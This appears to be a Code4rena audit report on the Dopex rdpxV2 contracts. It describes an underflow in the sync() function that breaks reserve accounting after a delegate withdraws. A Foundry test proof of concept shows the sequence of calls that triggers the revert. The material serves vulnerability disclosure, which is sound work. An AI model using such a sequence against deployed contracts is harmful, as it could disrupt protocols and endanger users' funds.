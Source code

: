 https://github.com/code-423n4/2023-08-dopex/blob/eb4d4a201b3a75dd4bddc74a34e9c42c71d0d12f/contracts/core/RdpxV2Core.sol#L992-L1008

The core problem lies in the `sync()` function. The `sync()` function will revert due to underflow leading to accounting errors for all the reserveAssets.

## Proof of Concept
Paste the following code in https://github.com/code-423n4/2023-08-dopex/blob/main/tests/rdpxV2-core/Integration.t.sol

import these lines first
```solidity
import "forge-std/console.sol";
import "forge-std/console2.sol";
import { ERC721Holder } from "@openzeppelin/contracts/token/ERC721/utils/ERC721Holder.sol";
```

now paste the test snippet below

```solidity
function testSync() public {
  address user1 = makeAddr("user1");
  address user2 = makeAddr("user2");
  weth.transfer(user1,100 ether);
  weth.transfer(user2,50 ether);
  vm.prank(user1);
  weth.approve(address(rdpxV2Core),type(uint256).max);
  vm.prank(user1);
  uint256 delegateId1 = rdpxV2Core.addToDelegate(100e18, 20e8);
  vm.prank(user2);
  weth.approve(address(rdpxV2Core), type(uint256).max);
  vm.prank(user2);
  uint delegateId2 = rdpxV2Core.addToDelegate(50e18,20e8);
  // bond with delegate
  uint256[] memory _amounts = new uint256[](1);
  uint256[] memory _delegateIds = new uint256[](1);
  _delegateIds[0] = delegateId2;
  _amounts[0] = 1 * 25e18;
  rdpxV2Core.bondWithDelegate(address(this), _amounts, _delegateIds, 0);

  vm.prank(user2);
  rdpxV2Core.withdraw(delegateId2);
  console.log("totalwethdelegated",rdpxV2Core.totalWethDelegated());
  console2.log("balanceOf weth",IERC20(address(weth)).balanceOf(address(rdpxV2Core)));
  console2.log("balance of weth of rdpxcore < totalwethdelegated",IERC20(address(weth)).balanceOf(address(rdpxV2Core)) < rdpxV2Core.totalWethDelegated());
  vm.expectRevert();// [FAIL. Reason: Arithmetic over/underflow]
  rdpxV2Core.sync();

  // All reserveAssets will be out of sync now.

}
```
